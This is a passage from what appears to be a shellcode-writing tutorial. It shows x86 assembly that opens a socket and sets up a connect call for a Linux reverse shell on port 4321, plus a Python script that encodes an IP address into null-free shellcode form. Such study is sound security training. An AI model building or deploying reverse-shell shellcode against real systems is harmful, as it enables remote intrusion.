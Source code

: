 ```nasm
		
		mov ecx, esp
		int 0x80			    ; returns socket file descriptor to EAX
```

We would require the socket file descriptor for later use. So, we need to save it in some register.
```nasm
		push eax						
		pop esi				    ; clears ESI and saves sockfd in ESI
```
### Connect to IP and Port with SYS_CONNECT
First lets try and connect to our local machine itself on port 4321.
```nasm
		; connect to localhost:port with sys_connect
		; #define SYS_CONNECT	3		/* sys_connect(2)		*/
		; 
```
The man page entry for connect is as follows:
```
int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
```
Lets look at the important one ```struct sockaddr *addr```.
```
// IPv4 AF_INET sockets:
struct sockaddr_in {
    short            sin_family;   // e.g. AF_INET, AF_INET6
    unsigned short   sin_port;     // e.g. htons(3490)
    struct in_addr   sin_addr;     // see struct in_addr, below
    char             sin_zero[8];  // zero this if you want to
};

struct in_addr {
    unsigned long s_addr;          // load with inet_pton()
};
```
To fulfil our need, the contents of ```sockaddr``` should be as follows:
```
sin_family = AF_INET = 2
sin_port = 0xe110 = hex(htons(4321))
```
For determining the value of ```sin_addr```, I have written a simple python script which accepts ip address and spits out shellcode ready value (provided ip address does not contain any null values).
```python
#!/usr/bin/env python

'''
Author	: RIZAL MUHAMMED (UB3RSiCK)
Desc	: IP address to Network Byte Order Converter
'''

import sys

if not len(sys.argv) == 2:
	print "Usage: {} ip".format(sys.argv[0])
	sys.exit()


ip = sys.argv[1]
hex_ip = map(lambda x: '0'+x if not len(x) == 2 else x , [hex(int(item))[2:] for item in ip.split('.')[::-1]])
if '00' in hex_ip:
	print "IP Address contains nullbyte: {}".format(hex_ip)
	sys.exit()
print "ip_address: {}\nnetwork_byte_order: {}".format(ip, '0x' + ''.join(hex_ip))
```